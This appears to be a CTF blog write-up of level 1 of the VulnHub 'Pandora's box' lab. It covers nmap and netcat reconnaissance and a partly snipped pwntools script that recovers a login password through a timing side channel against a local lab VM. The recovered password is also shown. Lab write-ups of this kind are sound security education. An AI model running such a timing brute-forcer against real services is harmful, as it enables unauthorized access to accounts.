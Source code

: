 ### Pandoras box Level *1* of *5*

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_site.png)
---------------------------------------------------------------------

About:
Pandora's box is a Boot2Root VM focused on binary exploitation and
reverse engineering. You have to complete all levels to r00t the box.
Some levels come with a README file which you should read.

---

This is the first level of the challenge, an OVA file is provided in the challenge [link]() booting up the ova file in to VM ware player we have

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando.gif)

after booting up the box, we are left with a prompt to enter username and password, we tried some random guesses with no avail
well this a boot-to-root challenge my first of a kind that has to do with a combination of reveng and binary exploitation, knowing this
let's try and search for the machines IP address and scan for open ports

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_ip.png)

Using the command `arp -a` we were able to get the machine IP address that I configured the network adapter binded to vmnet1 which we confirmed by comparing the shown macadress with the machine's ip address.

using this ip address let's scan the machine using NMAP we have :

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_service_scan.png)

we use the NMAP command `sudo nmap -sV -SN -sC 192.168.17.129`, and we got some results, an open port to SSH on port 22/TCP, let's try a deeper scan to scan all port using the `-p-` args to the command we have::

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_all_scan.png)

doing so we were able to get an additional open port running on port 54311 with service Nagios NSCA

let's try connecting to it using netcat we have ::

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_login_lvl1.png)

we could see a password prompt asking us for a password, we try some random string with no luck, and then I went to google to do some reconnaissance on possible vulnerabilities for Nagios logging

<div style="width:98px;max-width:100%;"><div style="height:0;padding-bottom:58.16%;position:relative;"><iframe width="98" height="57" style="position:absolute;top:0;left:0;width:100%;height:100%;" frameBorder="0" src="https://imgflip.com/embed/7m974v"></iframe></div><p><a href="https://imgflip.com/gif/7m974v">That eureker moment!!!</a></p></div>

And Whalaaaaa, we found that it's vulnerable to timing attack; In cryptography, a timing attack is a side-channel attack in which the attacker attempts to compromise a cryptosystem by analyzing the time taken to execute cryptographic algorithms. More info [here](https://en.wikipedia.org/wiki/Timing_attack)

Base on this info we could craft a Python script that connects to the remote port on 54311 using pwntools and attempts to guess the password by measuring the time it takes to receive a response from the server.

Abiding to this timing attack principle we have ::

```
#!/usr/bin/python3

from pwn import *
from time import time
from string import *

ip = "192.168.17.129"
port = 54311

sample_space =  ascii_letters + digits

p = remote(ip, port)

<!--snip>
<!--snip>

while not done:
	curr_val = ''
	first = True
	for chars in sample_space:
		current = flag
		current += chars
		ttt = chcktime(current)
		ttt = chcktime(current)
	
		if first:
			min_diff = ttt
			first = False
		
		if ttt < min_diff:
			min_diff = ttt
			curr_val = chars
				
	flag += curr_val
	print(flag)
	p.sendlineafter(b":", flag.encode())
	status = p.recvuntil(b"\n")

	if b"Logged" in status:
		done = True
```

full script [here](https://Cyberguru1.github.io/posts/VulnHub/images/script.py)

Here's a breakdown of the code:

-The script sets the IP address `(ip)` and port number `(port)` for the remote server.
-The `sample_space` variable contains a string of ASCII letters and digits, which will be used to construct the password.
-The script establishes a connection to the remote server using `p = remote(ip, port)`.
-The `chcktime` function measures the time it takes to receive a response from the server after sending a password attempt. It sends the password attempt, receives the server's response, and calculates the time difference between sending and receiving the response.
-The main loop of the script repeatedly selects a character from sample_space and appends it to the flag variable. It then measures the time it takes to receive a response from the server after sending the updated password attempt.
-The script keeps track of the minimum time difference `(min_diff)` and the character that resulted in the minimum time difference `(curr_val)`.
-After each iteration of the loop, the selected character is appended to the `flag` variable and sent to the server.
-If the server responds with "Logged in ", indicating that the correct password has been guessed, the loop is terminated.
-The script prints the current value of `flag` after each iteration to show the progress of the password guessing.

After running the code for a while we have:

<div style="width:98px;max-width:100%;"><div style="height:0;padding-bottom:58.16%;position:relative;"><iframe width="98" height="57" style="position:absolute;top:0;left:0;width:100%;height:100%;" frameBorder="0" src="https://imgflip.com/embed/7m974v"></iframe></div><p><a href="https://Cyberguru1.github.io/posts/VulnHub/images/pando_lvl1_flag.gif">Running the script</a></p></div>

This the final password:

![](https://Cyberguru1.github.io/posts/VulnHub//images/pando_lvl1_flag.png)

we got the password as `R3sp3ctY04r4dm1niSt4t0rL1keYo4R3spectY04rG0d`, using this to login we have

![](https://Cyberguru1.github.io/posts/VulnHub//images/pando_lvl1_sucess.png)

And boooom!!!

we are in!!!!!.....................

The next solution to level *2* would be dropped soon ..............

Arigato :<^>:
